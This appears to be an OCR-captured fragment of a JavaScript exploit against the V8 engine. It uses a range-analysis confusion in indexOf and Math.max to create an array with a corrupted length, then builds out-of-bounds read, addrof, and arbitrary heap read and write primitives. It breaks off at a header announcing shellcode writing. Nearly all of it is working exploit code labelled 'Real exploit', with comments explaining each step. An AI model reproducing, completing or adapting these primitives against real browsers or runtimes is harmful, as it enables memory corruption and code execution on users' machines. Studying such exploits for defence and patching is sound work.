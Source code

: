 ```js
}

function itof(val) {  // input -> int, output -> float
    u64_buf[0] = Number(val & 0xffffffffn)
    u64_buf[1] = Number(val >> 32n)
    return f64_buf[0]
}

/* -----------------------------Real exploit starts here----------------------------- */
//kmaxlen = 536870888

function oob_read_opt(c) {
  const s = "AAAAA";
  let bad = s.indexOf(c);
  //Actual = -1, Range = [0, 536870888]
  bad = Math.max(bad, 536870880);
  //-1, [536870880, 536870888]
  bad = bad - 536870880;
  //-536870881, [0, 8]
  bad >>= 30;
  //-1, [0, 0]
  bad *= 5;
  //-5, [0, 0]
  bad = bad + 4;
  //-1, [4, 4]
  //return bad;
  let evil = new Array(bad);
  evil[0] = 13.37;
  let obj_arr = [evil, 1.1];  //idx 7 elemnt start
  let poor = [1.1, 2.2];
  
  return [evil, poor, obj_arr];
}

/* Optimize the function oob_read_opt() */
for (i = 0; i < 0x10000; i++)  oob_read_opt("B");

[leet, noob, obj_arr] = oob_read_opt("B");
//var float_map = ftoi(leet[13]) & 0xffffffffn
//print("[+]FLOAT_MAP: " + hex(float_map))
//for (i = 0; i < 20 ; i++) print(i + ":\t" + hex(ftoi(leet[i])));

function addrof(obj) {
  obj_arr[0] = obj;
  return ftoi(leet[7]) & 0xffffffffn;
}

function heap_read(addr) {
  addr |= 1n;
  addr -= 8n;
  leet[14] = itof((4n << 32n) + addr);
  return ftoi(noob[0]);
}

function heap_write(addr, val) {
  addr |= 1n;
  addr -= 8n;
  leet[14] = itof((4n << 32n) + addr);
  noob[0] = itof(val);
  return;
}

/* -----------------------------Common shellcode writing part----------------------------- */
```